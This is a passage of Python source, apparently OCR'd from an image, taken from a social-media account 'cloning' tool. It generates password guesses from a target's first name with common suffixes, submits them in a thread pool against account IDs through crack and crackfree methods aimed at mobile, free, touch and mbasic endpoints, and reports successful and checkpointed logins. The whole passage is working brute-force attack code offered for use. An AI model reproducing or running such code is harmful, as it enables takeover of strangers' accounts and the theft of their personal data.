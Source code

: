                     pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')                
            else:
                if len(frs)<3:
                    pwv.append(nmf)
                else:
                    pwv.append(frs+'12')
                    pwv.append(frs+'22')
                    pwv.append(frs+'@12')               
                    pwv.append(frs+'123')
                    pwv.append(frs+'1234')
                    pwv.append(frs+'@1234')
                    pwv.append(nmf)
                    pwv.append('57273200')
                    pwv.append(frs+'@123')
                    pwv.append(frs+'@')
                    pwv.append(frs+'@@')
                    pwv.append(frs+'@#')
                    pwv.append(frs+'1122')
                    pwv.append(frs+'11')
                    pwv.append(frs+'#11')
                    pwv.append(frs+'@1122')
                    pwv.append(frs+'@11')
                    pwv.append(frs+'@22')
            if 'ya' in pwpluss:
                for xpwd in pwnya:
                    pwv.append(xpwd)
            else:pass
            if 'mobile' in method:
                pool.submit(crack,idf,pwv)
            elif 'free' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'touch' in method:
                pool.submit(crackfree,idf,pwv)
            elif 'mbasic' in method:
                pool.submit(crackfree,idf,pwv)
            else:
                pool.submit(crackfree,idf,pwv)
    print('\n\033[1;37m===================================')
    print('\033[97;1m[\033[92;1m+\033[97;1m] CLONING COMPLETE TIME :\033[1;92m'+time.strftime("%H:%M")+" "+ tag)
    print('\033[97;1m[\033[92;1m•\033[97;1m] OK :\033[0;92m %s '%(OK))
    print('\033[97;1m[\033[92;1m+\033[97;1m] CP :\033[0;93m %s '%(CP))
    print('\n\033[1;37m===================================')
    woi = input('\033[97;1m[\033[92;1m+\033[97;1m] \033[1;37m ENTER TO BACK')
    os.system("python SSC-6-3.py")
    exit()
 